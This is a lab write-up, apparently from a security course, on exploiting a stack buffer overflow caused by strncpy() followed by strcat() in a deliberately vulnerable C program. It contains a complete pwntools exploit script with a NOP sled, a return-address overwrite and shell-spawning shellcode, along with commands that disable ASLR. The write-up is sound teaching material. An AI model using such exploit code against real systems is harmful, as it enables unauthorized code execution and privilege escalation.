 ```yaml
---
layout: post
title: Adjacent Memory Shellcode
category: system_security
author: 'reo'
tags: python seclab docker c privilege_escalation
featured: 1
mathjax: 
---
```


It is sometimes mistakenly said that `strncpy()` is guaranteed to prevent
the issues that come with buffer overflow. This exercise is an example of
a buffer-overflow on a program which uses `strncpy()`.

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

The vulnerable program is

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

#define BUFFER_SIZE 1000
#define on_error(...) { fprintf(stderr, __VA_ARGS__); fflush(stderr); exit(1); }

void echo(char *arg1, char *arg2){
     char result[BUFFER_SIZE*2];
     char input1[BUFFER_SIZE];
     char input2[BUFFER_SIZE];

     strncpy(input1, arg1, BUFFER_SIZE);
     strncpy(input2, arg2, BUFFER_SIZE);
     strcat(result, input1);
     strcat(result, input2);
     printf("Echo Response: %s\n", result);
}

int main(int argc, char **argv){
    if (argc < 3) on_error("Usage: %s [argument1] [argument2]\n", argv[0]);
    echo(argv[1], argv[2]);
    return 0;
}
```

Following our previous similar labs,
ASLR and dmesg restrict are disabled

```
$ docker run --rm -v $(pwd):/shared --privileged -it thierrysans/vulnerable:stack-smashing-shellcode bash
# echo 0 > /proc/sys/kernel/randomize_va_space
# echo 0 > /proc/sys/kernel/dmesg_restrict
```

<br>

***

## The Exploit

***

Though `strncpy()` only copies a set number of bytes, `strcat()` has the flexibility we need for the exploit.
We start by compiling and disassembling the executable

```
/shared# gcc vuln.c -o vuln -fno-stack-protector -m32 -z execstack
/shared# objdump -d -M intel vuln > dump.dmp
```

Since there are two buffers, we have two payloads and from the decompilation we know
the memory looks something like

```
      +--------+ <- start of second buffer
      |        |
      |        |
      |        |
      |        |
      |        |
      |        |
      |        |
      |        |
      +--------+ <- start of first buffer
      |        |
      |        |
      |        |
      |        |
      |        |
      |        |
      |        |
      +--------+
      ~  ..... ~
      +--------+
      |        | <- return address
      |        |
      +--------+  
```

The goal is to craft payloads so after the exploit it looks more like

```
      +--------+ <- start of second buffer
      |  NOP   |
      |  SLED  |
 addr |        | <- want to jump somewhere in the middle
      |        |
      +--------+
      | SHELL  | <- our planted shellcode
      | CODE   |
      |        |
      |        |
      |        |
      |        |
      +--------+
      ~  ..... ~ <- additional padding b'b'
      +--------+
      |   a    |
      |   a    |
      |   a    |
      +--------+
      ~  ..... ~ <- padding b'a'
      +--------+
      |  addr  | <- return address
      |        |
      +--------+  
```

The exploit starts very much like our [previous exercise]().

```python
from pwn import *
from shellcode import get_shellcode

pwnlib.term.term_mode= False

''' returns the payload for the attack
    given the path to the vulnerable binary
    and the shellcode from get_shellcode in shellcode.py
    (string, bytes) -> bytes
'''
def craft_payload(path_to_vuln_prgm, shellcode):
    # size of buffers after compilation:
    # result: 2008 (shift by 0x7d8)
    # input1 and input2: 1000 (shift by 0xbc0 and 0xfa8 respectively)
    p = process([path_to_vuln_prgm, b'a'*508, b'b'*1000])
    p.wait_for_close()
    debug_msg = process('dmesg | grep "vuln" | tail -n 1', stdout=subprocess.PIPE,
            shell=True).recvall()

    esp = int(re.search(b'sp\ (.*)\ error', debug_msg).group(1), 16)

    # want 4294951440
    # addr = 0xffffc210
    addr = esp - 3250
    nop_len = 768
```

A small technical point is that pwnlib complains if we have null bytes in the argument.
After some experimentation, we notice the first two bytes tend to be `0xff` and the next
one quite large (around `0xc0`) so the problem one is the lowest which can be `0x00`.
A simple solution is if we detect this, simply shift it so we land on our NOP sled

```python
    if b'\x00' in p32(addr)[:-1]:
        addr = addr + 32
    payload1 = b'a'* 504 + p32(addr)
    payload2 = b'\x90'*nop_len + shellcode + b'b'*(1000-len(shellcode)-nop_len)
    return (payload1, payload2)
```

notice `payload2` has no null terminator so `strcat()` will overflow
its contents into the first buffer

Finally, we have the main driver for our exploit which is also quite similar to last
time

```python
def run(path_to_vuln_prgm):
    interactive, shellcode = get_shellcode()
    payload = craft_payload(path_to_vuln_prgm, shellcode)
    p = process([path_to_vuln_prgm, payload[0], payload[1]])
    p.interactive()
```

with `shellcode.py` being

```python
from pwn import *

def get_shellcode():
      return asm(shellcraft.i386.linux.sh())
```

<br>

***

## Cleanup

***

When cleaning up,
make sure that the security features on your machine have not been altered:

```
$ echo 2 > /proc/sys/kernel/randomize_va_space
$ echo 1 > /proc/sys/kernel/dmesg_restrict
```

also don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

Adjacent Memory shell inspired by [this article](https://www.exploit-db.com/papers/13148)

